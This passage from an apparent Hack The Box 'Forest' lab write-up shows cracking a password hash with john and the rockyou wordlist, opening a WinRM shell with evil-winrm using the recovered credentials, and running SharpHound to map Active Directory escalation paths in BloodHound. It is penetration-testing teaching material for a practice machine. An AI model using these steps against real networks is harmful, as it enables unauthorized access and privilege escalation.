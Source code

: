 ```terminal
$ /usr/sbin/john --wordlist=/root/Documents/wordlist/rockyou.txt /root/Documents/writeups/forest/hashuser.txt
```

We can connect now with evil-winrm tool. This program can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985).

WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.

Reference - evil-winrm tool : <https://github.com/Hackplayers/evil-winrm>

```terminal
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

The exploitation is successful and we have gained a foothold.

## **<span style='color:#c0392b'>[3] Privilege Escalation - Gain higher-level permissions</span>**
### Auditing with BloodHound
***
BloodHound is a tool for mapping an Active Directory environment by representing it as a graph.
This representation then offers all the power of graph theory to discover paths of attack that would otherwise be difficult or impossible to detect.

References - BloodHound :
* <https://beta.hackndo.com/bloodhound/>
* <https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux>
* <https://github.com/BloodHoundAD/BloodHound/wiki/getting-started>
* <https://github.com/BloodHoundAD/SharpHound>

```terminal
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice -s "/root/Documents/exploit-Win-RM/"
 PS c:\Users\svc-alfresco\Documents> SharpHound.ps1
 PS c:\Users\svc-alfresco\Documents> menu
 PS c:\Users\svc-alfresco\Documents> Invoke-BloodHound -CollectionMethod All -JSONFolder "c:\Users\svc-alfresco\Documents"
```

We download 2020xxxxxxxxxxxxxx_BloodHound.zip and export in bloodhound on our attacking machine to audit and see all possibility of escalation.

```terminal
$ neo4j console
----
$ bloodhound
```

![Desktop View]({{ "/assets/img/forest/HTB-Images-Forest-Bloodhound_Exchange.png" | relative_url }})
